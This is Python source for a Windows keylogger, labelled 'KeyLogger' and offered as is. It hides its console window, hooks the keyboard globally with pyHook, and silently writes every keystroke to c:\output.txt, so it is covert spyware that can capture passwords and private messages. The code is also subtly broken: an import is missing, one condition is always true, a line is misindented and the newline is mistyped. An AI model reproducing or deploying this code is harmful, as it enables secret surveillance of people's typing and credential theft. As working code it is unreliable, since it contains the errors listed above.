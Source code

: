 # KeyLogger
import win32api
import win32console
import win32gui
import pythoncom, pyHook
  
win = win32console.GetConsoleWindow()
win32gui.ShowWindow(win, 0)
  
def OnKeyboardEvent(event):
    if event.Ascii==5:
        _exit(1)
    if event.Ascii !=0 or 8:
    #open output.txt to read current keystrokes
        f = open('c:\output.txt', 'r+')
        buffer = f.read()
        f.close()
    # open output.txt to write current + new keystrokes
        f = open('c:\output.txt', 'w')
        keylogs = chr(event.Ascii)
        if event.Ascii == 13:
        keylogs = '/n'
        buffer += keylogs
        f.write(buffer)
        f.close()
# create a hook manager object
hm = pyHook.HookManager()
hm.KeyDown = OnKeyboardEvent
# set the hook
hm.HookKeyboard()
# wait forever
pythoncom.PumpMessages()
KeyLogger

